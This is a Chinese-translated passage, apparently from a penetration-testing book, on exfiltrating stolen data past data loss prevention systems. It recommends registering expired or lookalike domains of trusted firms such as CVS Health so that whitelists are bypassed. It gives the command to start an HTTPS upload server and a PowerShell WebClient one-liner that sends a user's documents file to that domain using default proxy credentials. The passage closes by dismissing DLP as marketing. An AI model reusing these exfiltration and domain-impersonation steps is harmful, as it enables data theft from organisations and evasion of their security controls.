 我们可以搜索已知的健康保险公司、银行网站和其他最近倒闭的值得信赖的服务，并尝试购买它们。我们不一定需要一个*.com网站；只要受信任服务的名称在URL中，它就很可能绕过大多数白名单工具。

![](chap5/chap5-20.jpg)


美国最大的健康保险公司CVS Health怎么样？应该这样做。注册域并将其分配给前置服务器后，我们可以像以前一样在其上设置一个简单的HTTPs python服务器：
```
root@FrontGun: # python simpleHTTPsUpload.py
```

然后使用以下PowerShell命令传输document.txt文件。
```
PS> $browser = New-Object System.Net.WebClient;
PS> $browser.Proxy.Credentials
=[System.Net.CredentialCache]::DefaultNetworkCredentials;
$browser.uploadFile("https://cvshealth.co.in", "
c:\users\ejansen\documents.txt");
```

就这样，伙计们！永远不要被新奇的数据防泄漏（DLP）系统打动。它们只是另一种赚钱的营销工具。

一旦我们得到了数据，我们总能找到一种方法把它弄出来！





> 翻译：Ryan 2020/2/20 

